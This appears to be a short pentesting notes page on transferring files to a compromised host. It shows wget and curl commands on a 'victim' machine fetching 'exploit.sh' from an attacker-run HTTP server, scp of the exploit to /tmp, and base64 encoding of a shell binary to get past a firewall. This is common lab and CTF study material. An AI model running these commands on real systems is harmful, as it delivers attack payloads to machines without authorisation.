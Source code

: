 ```yaml
---
title: Notes | Transfer Files
author: Zeropio
date: 2022-07-13
categories: [Notes, System]
tags: []
permalink: /notes/system/transfer-files
---
```


# wget

We can start a Python http server on our machine:
```console
zero@pio$ sudo python3 -m http.server 80

  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And then download our files:
```console
victim@machine$ wget http://<ip>:<port>/exploit.sh 
victim@machine$ curl http://<ip>:<port>/exploit.sh -o exploit.sh 
```

---

# scp

We can even use **scp**:
```console
zero@pio$ scp exploit.sh victim@machine:/tmp/exploit.sh 
```

---

# base64

If the machine has a firewall that prevent this the file transfer we can encode it:
```console
zero@pio$ base64 shell -w 0
  f0VM.. <SNIP> ...mDwU
```

And in the victim:
```console
victim@machine$ echo f0VM... <SNIP> ...mDwU | base64 -d > shell
```

---

# Validating

The **file** command can be use to validate:
```console
victim@machine$ file shell
  shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Also we can check the hash in both machines:
```console
zero@pio$ md5sum shell

victim@machine$ md5sum shell
```




